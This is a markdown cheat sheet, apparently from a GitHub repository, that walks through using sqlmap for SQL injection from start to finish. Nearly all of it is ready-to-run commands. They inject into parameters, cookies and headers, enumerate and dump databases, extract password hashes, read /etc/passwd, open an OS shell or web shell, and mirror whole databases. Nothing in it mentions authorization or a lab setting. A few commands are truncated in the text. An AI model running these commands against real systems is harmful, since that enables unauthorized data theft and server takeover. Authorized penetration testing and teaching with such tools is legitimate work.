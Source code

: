 
## 🧠 SQLMap: **Zero to Hero – Full-Scope Exploitation Guide**


## What is SqlMap ? 

- `sqlmap` is a fully automated **SQL injection and database takeover tool.**
- *It identifies vulnerabilities, fingerprints the DBMS, enumerates  databases/tables/users, extracts data, bypasses protections, and even drops backdoors.*

## 📚 II. Core SQL Injection Types sqlmap Handles

| Injection Type                    | Description                                          |
| --------------------------------- | ---------------------------------------------------- |
| ✅ **Boolean-based Blind**         | Responses differ based on true/false logic           |
| ✅ **Time-based Blind**            | Exploits query execution delays                      |
| ✅ **Error-based**                 | Uses DB error messages to extract info               |
| ✅ **UNION-based**                 | Combines multiple SELECTs to extract data            |
| ✅ **Stacked Queries**             | Executes multiple SQL queries in one shot            |
| ✅ **Inline Query / Second-Order** | Injection occurs in one request, executed in another |

---
## 🧪 III. Phase-by-Phase sqlmap Progression

### 1️⃣ **Recon & Basic Testing**

#### 🔧 Basic GET Param Injection

`sqlmap -u "http://target.com/page.php?id=1" --batch`
#### 🔧 POST Form Field Injection

`sqlmap -u "http://target.com/login.php" --data="username=admin&password=123" --batch`

---
### 2️⃣ **Database Discovery & Enumeration**

### 🎯 List DBMS & Banner

`sqlmap -u URL --banner
### 🎯 List Databases

`sqlmap -u URL --dbs`

### 🎯 List Tables in a DB

`sqlmap -u URL -D database_name --tables`

### 🎯 List Columns in a Table

`sqlmap -u URL -D database_name -T table_name --columns`

### 🎯 Dump Table Data

`sqlmap -u URL -D database_name -T table_name --dump`

___
### 3️⃣ **Authentication Handling**

#### 🔑 Cookie-Based Injection

`sqlmap -u URL --cookie="session=abc 123*"`
#### 🔑 HTTP Basic Auth

`sqlmap -u URL --auth-type=basic --auth-cred=user:pass`
#### 🔑 Login Form Session Preservation
-  Capture request in Burp → Save to request. Txt

`sqlmap -r request. Txt --batch`

___
### 4️⃣ **Advanced Extraction Flags**

#### 🔐 Extract Passwords & Hashes

`sqlmap -u URL --passwords`

#### 🔐 Extract Usernames & Privileges

`sqlmap -u URL --users --roles --privileges`

#### 🔐 Extract File Content

`sqlmap -u URL --file-read="/etc/passwd"`

#### 💣 Upload Web Shell

`sqlmap -u URL --os-shell`

---
### 5️⃣ **Injection Target Precision**

### 🎯 Inject Into Cookie

`sqlmap -u URL --cookie="session=abc123*" --batch`

#### 🎯 Inject Into Headers

`sqlmap -u URL --headers="User-Agent: Mozilla/5.0*"`

#### 🎯 Inject Into POST Data

`sqlmap -u URL --data="search=abc*" --batch`

#### 🎯 Second-Order Injection

`sqlmap -u URL --data="username=abc" --second-order="http://targe`

---
## 6️⃣ **Payload Types and Modes**

| **Technique** | **Flag**        | **Description**     |
| ------------- | --------------- | ------------------- |
| **B**         | `--technique=B` | Boolean-based blind |
| **E**         | `--technique=E` | Error-based         |
| **U**         | `--technique=U` | UNION query-based   |
| **S**         | `--technique=S` | Stacked queries     |
| **T**         | `--technique=T` | Time-based blind    |
| **Q**         | `--technique=Q` | Inline queries      |

---
### 7️⃣ Real-World Scenarios (and flags)

#### 🔍 Authenticated Panel Injection

- Capture POST request after login
    
- Save to `login.txt`
    

`sqlmap -r login.txt --level=5 --risk=3 --technique=BEUSTQ --batch`

#### 🔍 API Token Injection

`sqlmap -u URL --headers="X-API-KEY: token123*" --batch`

#### 🔍 JSON Injection

`sqlmap -u URL --data='{"search":"abc*"}' --batch --headers="Conten`

___
# 🧠 8️⃣ Understanding sqlmap Intelligence

### 💡 Risk Levels:

|Risk|Description|
|---|---|
|1|Safe, non-destructive payloads|
|2|Adds UNION/stacked queries|
|3|Includes time-based / heavy tests|

### 💡 Level:

|Level|Description|
|---|---|
|1|Basic params (GET only)|
|5|Includes GET, POST, headers, cookies, User-Agent|

---
# 🧙‍♂️ 9️⃣ sqlmap: Black Belt Moves

## 🔄 Mirror Entire DB

`sqlmap -u URL --dump-all`
